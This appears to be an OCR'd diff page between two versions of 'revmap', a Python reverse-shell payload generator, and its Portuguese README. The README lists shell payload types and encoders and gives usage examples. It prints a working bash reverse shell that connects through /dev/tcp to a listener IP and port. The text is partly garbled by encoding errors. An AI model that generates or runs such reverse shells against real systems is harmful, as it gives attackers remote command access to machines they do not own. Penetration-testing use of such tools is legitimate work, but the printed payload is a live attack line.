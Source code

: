 ```
 Environment :: Console Classifier: Intended Audience :: System Administrators
 Classifier: License :: OSI Approved :: GNU General Public License v3 (GPLv3)
 Classifier: Natural Language :: English Classifier: Operating System :: OS
@@ -34,18 +34,18 @@
 Funcionalidade de realizar encode das payloads desejadas (Url encode, base64,
 hexadecimal e etc) # Forma de utilizaÃ§Ã£o ```sh revmap --ip 192.168.4.80 --
 port 4444 --payload bash --encode urlencode revmap --ip 192.168.4.80 --port
 4444 --payload bash revmap --ip 192.168.4.80 --port 4444 --payload python
 revmap --ip 192.168.4.80 --port 4444 --payload perl --encode base64 ``` Isso
 exibirÃ¡ a ajuda para a ferramenta. Aqui estÃ£o todos os switches que ele
 suporta: ```yaml ___ ___ _ _ _____ ___ ___ | _| -_| | | | .'| . | |_| |___|\_/
-|_|_|_|__,| _| |_| v0.0.1 - @joaoviictorti options: --h, --help show this help
+|_|_|_|__,| _| |_| v0.0.4 - @joaoviictorti options: --h, --help show this help
 message and exit --version show program's version number and exit --ip IP
 Insert ip --port PORTA Insert port --payload
 {bash,python,powershell,nc,php,perl,ruby,telnet,xterm,mkfifo,java,golang}
 Insert payload --encode {base64,hex,urlencode} Insert encode ``` # InstalaÃ§Ã£o
 revmap requer **python3** e para baixÃ¡-lo sÃ³ usar: ```sh pip3 install revmap
 ``` # Executando revmap ```console revmap --ip 192.168.4.160 --port 8080 --
 payload bash ___ ___ _ _ _____ ___ ___ | _| -_| | | | .'| . | |_| |___|\_/
-|_|_|_|__,| _| |_| v0.0.1 - @joaoviictorti bash -c 'exec bash -i &>/dev/tcp/
+|_|_|_|__,| _| |_| v0.0.4 - @joaoviictorti bash -c 'exec bash -i &>/dev/tcp/
 192.168.4.160/8080 <&1' ``` [https://capsule-render.vercel.app/
 api?type=waving&color=0000FF&height=120&section=footer]
```

### Comparing `revmap-0.0.3/setup.py` & `revmap-0.0.4/setup.py`

 * *Files identical despite different names*

